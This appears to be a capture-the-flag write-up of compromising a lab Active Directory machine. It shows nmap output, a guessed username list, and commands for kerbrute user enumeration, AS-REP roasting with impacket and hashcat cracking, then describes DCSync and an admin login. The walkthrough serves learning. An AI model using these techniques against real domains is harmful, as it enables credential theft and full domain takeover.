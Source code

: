 # Nmap

|Protocol|Ports|
|---|---|
|  TCP  | 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49675,49676,49677,49733  |


```sh
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-28 18:11:15Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
```
Now we have a domain name: EGOTISTICAL-BANK.LOCAL

# Port 53
When trying to perform a zone transfer we find the name of the machine:

![](axfr.png)

sauna.EGOTISTICAL-BANK.LOCAL

# 139/445
Enum4linux didn't give any results.



# Port 80
On port 80 we find a website of the company. The about page gives us possible usernames:

![](sitenames.png)

I made a list with possible combinatoins for the usernames:


```sh
f.smith
fergussmith
fergus.smith
fsmith
s.coins
shauncoins
shaun.coins
scoins
s.driver
sophiedriver
sophie.driver
sdriver
b.aylor
bowietaylor
bowie.taylor
btaylor
h.bear
hugobear
hugo.bear
hbear
stevenkerb
stevenkerb
steven.kerb
skerb
```

Let's try to brute-force to see if these users exist with kerbrute:

```sh
 kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt
```

Online one user comes back positive.
![](users.png)
# AS-REP Roasting

We can looking which users don't have kerberos pre-authentication enabled:

```sh
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/FSMITH  -dc-ip 10.10.10.175
```


![](asrep.png)

Let's roast!

```sh
sudo hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt  --force

```

![](pass.png)

Login to get user.txt

![](user.png)

To enumerate the domain from our linux machien we can use the tool bloodhound-python:

![](bp.png) 

After this we load the zip file in bloodhound for analysis:

We can see that the user svc_loanmgr has DSYNC rights which means this account can perform domain controller synchronization:

![](bh.png)

Further we can find out that we can perform a kerberoast attack in the user hsmith if we have the right privileges.


# Lateral Movement

After performing analysis in bloodhound and not finding a route, I tried if some passwords are reused  en enumeration using winPEAS to get a possible privilege escaltion path. And I found the password of the svc_loanmgr account!

![](winpeas.png)

We don't need to log in, but we can perform DC synchronization form out linux host

![](secrets.png)
# Root!

Now we can log in with evil-winrm as administrator:

![](root.png)

```sh

```
